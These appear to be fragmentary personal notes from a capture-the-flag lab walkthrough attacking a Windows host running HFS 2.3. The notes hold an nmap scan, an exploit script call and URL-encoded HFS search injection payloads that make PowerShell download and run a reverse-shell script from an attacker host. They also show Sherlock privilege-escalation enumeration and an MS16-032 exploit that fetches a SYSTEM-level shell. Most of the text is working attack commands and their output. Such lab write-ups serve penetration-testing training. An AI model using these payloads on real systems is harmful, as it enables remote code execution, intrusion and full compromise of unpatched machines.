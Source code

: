 nmap -p80 -sV -sC -Pn -T4 -oA 10.10.10.8 10.10.10.8
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-23 01:02 EDT
Nmap scan report for 10.10.10.8
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows




#for using script
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')"


#put on url also can
http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.22.}

#adjust accordingly
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.22:8000/Invoke-PowerShellTcp.ps1').}



grep -i function Sherlock.ps1               
function Get-FileVersionInfo ($FilePath) {
function Get-InstalledSoftware($SoftwareName) {
function Get-Architecture {
function Get-CPUCoreCount {
function New-ExploitTable {
function Set-ExploitTable ($MSBulletin, $VulnStatus) {
function Get-Results {
function Find-AllVulns {
function Find-MS10015 {
function Find-MS10092 {
function Find-MS13053 {
function Find-MS13081 {
function Find-MS14058 {
function Find-MS15051 {
function Find-MS15078 {
function Find-MS16016 {
function Find-MS16032 {
function Find-MS16034 {
function Find-CVE20177199 {
function Find-MS16135 {



    __________
#Download from attacker webserver
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.22:8000/Sherlock.ps1')


Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
wg
Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
___________
                        

“Appears Vulnerable”, MS16-032, MS16-034, and MS16-135.

IEX(New-Object Net.Webclient).downloadString('http://10.10.14.22:8000/exploit.ps1')


Privilege Escalation
0. Put this command at the bottom of the MS16032 exploit
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')"

1. In current low privilege shell, download ms16-032 exploit then it will execute as system authority to invoke another shell with root access 
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.22:8000/Invoke-MS16032.ps1')


2 netcat listeners needed